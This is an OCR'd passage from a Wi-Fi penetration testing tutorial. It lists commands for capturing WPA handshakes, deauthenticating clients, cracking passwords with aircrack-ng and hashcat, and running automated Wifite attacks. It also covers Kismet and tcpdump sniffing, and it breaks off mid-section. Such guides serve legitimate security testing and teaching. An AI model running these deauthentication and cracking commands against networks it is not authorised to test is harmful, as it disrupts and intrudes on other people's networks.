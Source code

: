 2. Capture Handshake (for WPA/WPA2 cracking) 
bash 
CopyEdit 
airodump-ng -c 6 --bssid 00:11:22:33:44:55 -w handshake wlan0mon 
3. Deauthenticate a Client to Capture a Handshake 
bash 
CopyEdit 
aireplay-ng --deauth 5 -a 00:11:22:33:44:55 -c AA:BB:CC:DD:EE:FF 
wlan0mon 
4. Crack WPA/WPA2 Password 
bash 
CopyEdit 
aircrack-ng -w rockyou.txt -b 00:11:22:33:44:55 handshake.cap 
Advanced Attack: Use GPU-powered hashcat to speed up cracking: 
bash 
CopyEdit 
hashcat -m 22000 handshake.hccapx rockyou.txt --force 
2. Wifite 
Wifite is an automated Wi-Fi attack tool that simplifies penetration testing by running 
multiple attacks on a network. 
Key Features 
Automates WEP, WPA, WPA2, and WPS attacks 
Deauthenticates clients and captures WPA handshakes 
Brute forces WPS PINs (Reaver integration) 
Supports Aircrack-NG, Reaver, and PixieWPS 
Usage 
bash 
CopyEdit 
wifite --wpa 
• --wpa: Attack only WPA/WPA2 networks 
• --wep: Attack only WEP networks 
• --wps: Attack WPS-enabled networks 
Example: Fully Automated Attack 
bash 
CopyEdit 
wifite --wpa --handshake-check 
3. Kismet 
Kismet is a wireless network detector, packet sniffer, and intrusion detection system 
(IDS). 
Key Features 
Detects hidden SSIDs 
Identifies rogue access points 
Works in monitor mode for passive sniffing 
Captures Wi-Fi packets for analysis 
Usage 
bash 
CopyEdit 
kismet -c wlan0mon 
Detect Hidden Wi-Fi Networks 
bash 
CopyEdit 
kismet -c wlan0mon --hide-ssid 
4. TCPDump 
TCPDump is a lightweight network packet analyzer that captures packets from interfaces. 
Key Features 
Captures and analyzes network packets 
Filters packets by IP, port, or protocol 
Supports real-time packet analysis 
Usage 
Capture All Wireless Traffic 
bash 
CopyEdit 
tcpdump -i wlan0mon -n 
Filter Traffic by IP 